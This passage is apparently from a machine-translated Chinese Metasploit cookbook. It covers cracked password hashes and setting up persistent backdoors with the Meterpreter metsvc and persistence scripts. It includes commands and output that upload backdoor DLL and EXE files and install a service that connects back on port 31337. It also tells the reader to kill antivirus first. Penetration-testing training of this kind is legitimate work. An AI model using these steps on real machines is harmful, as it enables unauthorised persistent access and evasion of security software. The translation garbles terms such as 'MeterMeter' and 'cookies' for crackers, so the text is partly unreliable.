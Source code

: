 如您所见，已找到输入哈希的匹配项，相应的可读密码为 123。

这里需要注意的一点是破解密码完全取决于密码的强度。与复杂密码相比，较弱的密码更容易破解。复杂密码将生成在线数据库中不存在的哈希值。因此，考虑使用基于彩虹表的饼干。有关此主题的更多信息，请访问以下 URL：

[http://bernardodamele.blogspot.in/#!http://bernardodamele.blogspot.com/2011/12/dump-windows-password-hashes.html](http://bernardodamele.blogspot.in/#!http://bernardodamele.blogspot.com/2011/12/dump-windows-password-hashes.html) 。

# 与后门建立持久连接

我们在本书开始时采用了一种预开发技术，重点是信息收集。然后，我们进入了开发阶段，在该阶段我们学习了不同的方法来破坏目标。然后，我们学习了一些有用的后开发技术，这些技术可以在破坏目标后实现。现在，在这个配方中，我们将学习**不断开发的技术**，在该技术中，我们将尝试与我们的目标建立持久的连接，以便我们可以随心所欲地连接到它。由于攻击者或目标计算机不能始终可用，因此后门攻击目标可以有效地设置持久连接。

## 准备好了吗

MeterMeter 为我们提供了两个脚本，可以执行后门目标的任务。它们是 Metsvc 和 Persistence。两个脚本的工作原理相似。让我们逐一处理这两个脚本。

### 注

这两个 MeterMeter 脚本都会在目标系统上创建文件，以便在防病毒程序中触发警报。因此，建议在运行这些脚本之前杀掉防病毒程序。

## 怎么做。。。

Metsvc 脚本通过在目标计算机上创建临时文件（如 DLL、后门服务器和服务）来工作。该脚本还可以启动匹配的 multi/handler 来自动连接回后门。 `-A`参数用于此目的。让我们在 Windows7 目标机器上运行脚本并分析结果。

```
meterpreter > run metsvc -h
OPTIONS:
-A Automatically start a matching multi/handler to connect to the service
-h This help menu
-r Uninstall an existing Meterpreter service (files must be deleted manually)
meterpreter > run metsvc -A
[*] Creating a meterpreter service on port 31337
[*] Creating a temporary installation directory C:\Users\DARKLORD\AppData\Local\Temp\ygLFhIFX...
[*] >> Uploading metsrv.dll...
[*] >> Uploading metsvc-server.exe...
[*] >> Uploading metsvc.exe...
[*] Starting the service...
* Installing service metsvc
* Starting service
Service metsvc successfully installed. 
```

成功上载后门文件后，它将自动连接回端口 31337 上的 multi/handler。使用这个后门，我们可以随意轻松地连接到目标机器。

另一个有用的后门脚本是持久性脚本。它的工作原理与 Metscv 类似，但它有一些额外的功能，如定期连接回目标、在系统引导时连接回目标、自动运行等等。让我们看看我们可以选择的不同方案。

```
meterpreter > run persistence -h
Meterpreter Script for creating a persistent backdoor on a target host.
OPTIONS:
-A Automatically start a matching multi/handler to..
-L <opt> Location in target host where to write payload to..
-P <opt> Payload to use, default is
-S Automatically start the agent on boot as a service
-T <opt> Alternate executable template to use
-U Automatically start the agent when the User logs on
-X Automatically start the agent when the system boots
-h This help menu
-i <opt> The interval in seconds between each connection
-p <opt> The port on the remote host where Metasploit..
-r <opt> The IP of the system running Metasploit listening.. 
```
